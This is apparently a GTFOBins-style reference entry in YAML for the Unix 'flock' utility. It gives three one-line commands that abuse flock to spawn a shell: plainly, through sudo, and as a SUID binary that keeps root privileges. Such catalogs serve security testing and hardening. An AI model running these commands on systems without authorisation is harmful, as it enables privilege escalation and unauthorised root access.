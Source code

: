 ```yaml
---
functions:
  execute-interactive:
    - code: flock -u / /bin/sh
  sudo-enabled:
    - code: sudo flock -u / /bin/sh
  suid-enabled:
    - code: ./flock -u / /bin/sh -p
---
```

